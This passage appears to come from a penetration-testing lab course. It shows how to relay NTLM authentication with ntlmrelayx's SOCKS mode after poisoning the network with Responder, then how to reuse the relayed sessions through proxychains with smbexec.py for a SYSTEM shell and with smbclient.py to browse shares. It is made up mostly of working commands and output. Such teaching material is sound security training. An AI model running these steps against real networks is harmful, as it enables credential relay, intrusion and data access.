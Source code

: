 
Another great option of `ntlmrelayx` is `-socks`; whenever `ntlmrelayx` starts, it launches a SOCKS proxy that we can use to hold relayed authenticated sessions and keep them active, allowing us to abuse them with any tool. For example, if we have multiple targets with the option `-tf`, we can use `-socks` and keep as many connections active as possible. Let’s see this in action.

First, we run `ntlmrelayx` with the `-socks` option (we are still targeting the `SMB` protocol):
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -socks

Impacket v0.11.0 - Copyright 2023 Fortra
<SNIP>

[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx>  * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
 * Debug mode: off
```

Then, we will use `Responder` to poison the network:
```
sudo python3 Responder.py -I ens192

  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

<SNIP>
```

After running `Responder` and making it poison broadcast traffic, we will notice that `ntlmrelayx` relays the `NTLM` authentication of multiple users originating from different IPs and establishes authenticated sessions on 172.16.117.50 and 172.16.117.60, adding them to its SOCKS server:
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -socks

Impacket v0.11.0 - Copyright 2023 Fortra
<SNIP>

[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx>  * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
 * Debug mode: off
[*] SMBD-Thread-9: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.50
[*] Authenticating against smb://172.16.117.50 as INLANEFREIGHT/RMONTY SUCCEED
[*] SOCKS: Adding INLANEFREIGHT/[email protected](445) to active SOCKS connection. Enjoy
[*] SMBD-Thread-9: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.60
[*] Authenticating against smb://172.16.117.60 as INLANEFREIGHT/RMONTY SUCCEED
[*] SOCKS: Adding INLANEFREIGHT/[email protected](445) to active SOCKS connection. Enjoy
[*] SMBD-Thread-9: Connection from INLANEFREIGHT/[email protected] controlled, but there are no more targets left!
[*] SMBD-Thread-10: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.50
[*] Authenticating against smb://172.16.117.50 as INLANEFREIGHT/PETER SUCCEED
[*] SOCKS: Adding INLANEFREIGHT/[email protected](445) to active SOCKS connection. Enjoy
[*] SMBD-Thread-10: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.60
[*] Authenticating against smb://172.16.117.60 as INLANEFREIGHT/PETER SUCCEED
[*] SOCKS: Adding INLANEFREIGHT/[email protected](445) to active SOCKS connection. Enjoy
[*] SMBD-Thread-10: Connection from INLANEFREIGHT/[email protected] controlled, but there are no more targets left!
[*] SMBD-Thread-11: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.50
[*] Authenticating against smb://172.16.117.50 as INLANEFREIGHT/NPORTS SUCCEED
[*] SOCKS: Adding INLANEFREIGHT/[email protected](445) to active SOCKS connection. Enjoy
[*] SMBD-Thread-11: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.60
[*] Authenticating against smb://172.16.117.60 as INLANEFREIGHT/NPORTS SUCCEED
[*] SOCKS: Adding INLANEFREIGHT/[email protected](445) to active SOCKS connection. Enjoy
```

The `-socks` options enable a command-line interface within `ntlmrelayx`; the `help` command prints the available commands (you can continue typing interactive commands even if the debug messages keep printing):
```
ntlmrelayx> help

Documented commands (type help <topic>):
========================================
help  socks

Undocumented commands:
======================
EOF  exit  finished_attacks  startservers  stopservers  targets
```

The `socks` interactive command lists the active sessions:
```
ntlmrelayx> socks

Protocol  Target         Username              AdminStatus  Port
--------  -------------  --------------------  -----------  ----
SMB       172.16.117.50  INLANEFREIGHT/RMONTY  FALSE        445
SMB       172.16.117.50  INLANEFREIGHT/PETER   TRUE         445
SMB       172.16.117.50  INLANEFREIGHT/NPORTS  FALSE        445
SMB       172.16.117.60  INLANEFREIGHT/RMONTY  FALSE        445
SMB       172.16.117.60  INLANEFREIGHT/PETER   FALSE        445
SMB       172.16.117.60  INLANEFREIGHT/NPORTS  FALSE        445
```

The option `-socks` makes `ntlmrelayx` act as a proxy, meaning that we can combine it with `proxychains` to use the sessions it holds. Only one authenticated session belonging to `INLANEFREIGHT/PETER` has administrative privileges on the relay target 172.16.117.50 (it has `AdminStatus` set to `TRUE`). We can tunnel any `impacket` tool via `proxychains` to abuse the authenticated session. However, first, we must set the `proxychains` configuration file to use `ntlmrelayx`’s default proxy port, `1080`, for SOCKS4/5. By default, the location of the `proxychains` configuration file on Linux is `/etc/proxychains.conf`:
```
cat /etc/proxychains4.conf | grep socks4

#       proxy types: http, socks4, socks5
socks4  127.0.0.1 1080
```

**Note:** Depending on the `proxychains` version installed, the configuration filename can be `/etc/proxychains4.conf` or `/etc/proxychains.conf`.

We will use the administrative authenticated session of `INLANEFREIGHT/PETER` to get remote code execution on 172.16.117.50. We will tunnel `smbexec.py` via `proxychains` using the same domain name and username. We will use the `-no-pass` option to prevent `smbexec.py` from prompting us for a password because we will abuse the authenticated session established held by `ntlmrelayx`’s SOCKS proxy (remember that we need to keep `ntlmrelayx` running to utilize the authenticated sessions available on the SOCKs server, otherwise if we close it, its SOCKS server also closes):
```
proxychains4 -q smbexec.py INLANEFREIGHT/[email protected] -no-pass

Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami

nt authority\system
```

However, when we do not have any administrative permissions on the target(s), when the `AdminStatus` is `FALSE`, we can still establish a session to connect to a shared folder or perform other nonadministrative tasks. For example, let’s use the `RMONTY` account to connect to 172.16.117.50, list all shared folders, and connect to the `Finance` shared folder:

```
proxychains4 -q smbclient.py INLANEFREIGHT/[email protected] -no-pass

Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# shares

ADMIN$
C$
Finance
IPC$
# use Finance
# ls
drw-rw-rw-          0  Mon Jul 31 13:25:51 2023 .
drw-rw-rw-          0  Mon Jul 31 13:25:51 2023 ..
-rw-rw-rw-         18  Mon Jul 17 20:07:49 2023 flag.txt
-rw-rw-rw-         22  Mon Jul 17 20:07:49 2023 report.txt
# exit
```

Although having access to shared folders might not seem very helpful, in the upcoming sections, we will learn about other techniques that we can chain with having access to shared folders to force clients to perform actions without their consent.